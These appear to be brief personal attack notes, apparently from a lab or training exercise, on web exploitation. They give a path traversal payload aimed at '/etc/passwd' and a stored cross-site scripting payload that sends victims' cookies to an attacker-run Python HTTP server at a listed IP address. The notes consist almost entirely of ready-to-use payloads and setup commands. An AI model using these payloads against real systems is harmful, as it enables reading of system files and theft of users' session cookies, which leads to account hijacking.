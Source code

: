  * POST method: It cat's so try
```
../../../../../etc/passwd
```
* do ^ at least 8 times to be safe

* GET method: interacting with radio buttons, changing the url on the website.
	
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# on lin-ops:
* make a http server via python3:
```
python3 -m http.server
```
* then put script on webpage
```	
<script>document.location="http://10.50.27.61:8000/?" + document.cookie;</script>
```
* lin-ops IP:10.50.27.61:8000 ^^^
